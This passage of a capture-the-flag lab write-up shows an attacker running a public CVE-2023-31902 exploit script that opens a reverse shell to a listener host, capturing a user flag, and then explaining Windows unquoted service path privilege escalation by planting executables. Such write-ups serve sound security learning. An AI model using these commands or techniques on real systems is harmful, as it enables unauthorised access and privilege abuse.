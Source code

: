 After starting the listener, I ran the exploit with the command shown in the documentation on the provided GitHub link:

**Command:** `python3 CVE-2023-31902-v2.py --target TARGET --file FILE --lhost LHOST`

![](images/mouse-trap-exploit.png)

I received a connection back from the target and got a shell as the user `purpletom`. The user flag can be found in purpletom's home directory: `C:\Users\purpletom`.

![](images/mouse-trap-rev-shell-connection.png)

![](images/mouse-trap-user-flag.png)

At this point we have successfully completed the first phase of the attack, `TA001: Initial Access` and can now proceed to `TA004: Privilege Escalation`.

### Privilege Escalation

| Tactics                     | Techniques                                     | Procedures                                                               |
| --------------------------- | ---------------------------------------------- | ------------------------------------------------------------------------ |
| TA004: Privilege Escalation | Path Interception by Unquoted Path (T1574.009) | You will then escalate your privileges through an unquoted service path. |

The technique we will use to escalate our privileges exploits a misconfiguration in a service path, where the path contains a directory name that includes the space character, but is missing proper quotation marks around the path. This technique takes advantage of the way Windows interprets these unquoted paths.

For example, if the service path `C:\Program Files\My Services\service.exe` is not enclosed in quotation marks when configured in the Windows Registry, Windows would try to resolve the path in the following order when executing the service:

```
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Services\service.exe
```

An attacker could exploit this by placing a malicious executable called `Program.exe` or `My.exe` in the appropriate directory and it will be resolved to run by Windows before the real `service.exe`.
